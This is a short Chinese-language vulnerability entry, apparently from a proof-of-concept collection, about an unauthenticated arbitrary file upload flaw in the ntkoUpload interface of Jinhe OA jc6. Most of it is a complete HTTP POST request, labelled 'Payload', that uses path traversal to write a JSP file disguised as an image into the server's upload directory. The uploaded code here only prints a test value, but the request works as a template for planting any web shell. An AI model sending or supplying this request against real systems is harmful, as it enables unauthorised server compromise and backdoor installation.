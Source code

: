 **漏洞描述：**

金和OA jc6系统ntkoUpload接口处存在任意文件上传漏洞，未经身份认证的攻击者可利用此漏洞上传恶意后门文件，最终可导致服务器失陷。

**影响版本：**

金和OA

**Payload：**

```yaml
POST /jc6/ntkoUpload/ntko-upload!upload.action HTTP/1.1
Host: you_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Content-Length: 392
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----zqulxi4ku42pfmoelvc0
Connection: close

------zqulxi4ku42pfmoelvc0
Content-Disposition: form-data; name="filename"

../../../../upload/xicxc2sv1n.jsp
------zqulxi4ku42pfmoelvc0
Content-Disposition: form-data; name="upLoadFile"; filename="xicxc2sv1n.jpg"
Content-Type: image/jpeg

<% out.println(111*111); %>
------zqulxi4ku42pfmoelvc0
Content-Disposition: form-data; name="Submit"

upload
------zqulxi4ku42pfmoelvc0--
```

---
